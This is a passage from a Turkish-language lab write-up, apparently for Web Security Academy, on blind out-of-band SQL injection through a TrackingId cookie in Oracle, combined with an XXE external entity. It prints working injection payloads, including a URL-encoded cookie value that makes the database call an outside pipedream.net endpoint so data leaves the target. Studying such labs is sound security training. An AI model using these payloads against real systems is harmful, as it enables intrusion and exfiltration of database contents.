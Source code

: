 Şuan SQL Injection zafiyetinin varlığını ve veritabanı sisteminin ne olduğunu tespit edemediğimiz için başlangıçta Oracle üzerinden denemeler yapalım. Bu kısımdaki yapıdan yararlanacağız. Buradaki yapıda da daha önce ele aldığımız XXE zafiyeti ile alakalı bir konudur. 

```python
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

Buraya gelirken de anlamamız gereken bir nokta daha bulunmakta. Cookie’de bulunan TrackingId alındıktan sonra ne yapıldığını da bilmeliyiz.

![Untitled](Web-Security-0x0A-Web-Security-Academy'den-Devam-E-5d98a1205cb7439db45c8e0570ab118e/Untitled-35.png)

Gerçek hayattan örnekleri düşünecek olursak TrackingId’nin değeri direkt olarak SELECT sorgularında geçmez, INSERT sorgularında geçmesi daha muhtemeldir. 

```python
INSERT INTO X (a,b,c) VALUES ('','','yVal16XJw78Gd1zM')
```

Bizim değerimiz buraya geliyorsa Oracle’da string birleştirmenin nasıl olduğuna bakarak ilerleyebiliriz. Oracle’da string birleştirme 'foo'||'bar’ şeklinde olmaktadır. Örneğin bizim verimiz 3. değişkende olacaksa burada bir subselect sorgusu açabilir miyiz diye düşünelim. Eğer bunu gerçekleştirebilirsek buradan ilerleyebiliriz. 

```python
INSERT INTO X (a,b,c) VALUES ('','','yVal16X||()||Jw78Gd1zM')
```

Lab ortamında da yapmamız gereken şey temelde bu mantığa dayanmaktadır. Ayrıca buradaki bazı özel karakterleri de Cookie yapısının bozulmaması için encode etmemiz gerekmektedir. Noktalı virgül → %3b ve % → %25

```python
'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "http://https://eo2pbauj182lj8v.m.pipedream.net/"> %25remote%3b]>'),'/l') FROM dual)||'
```
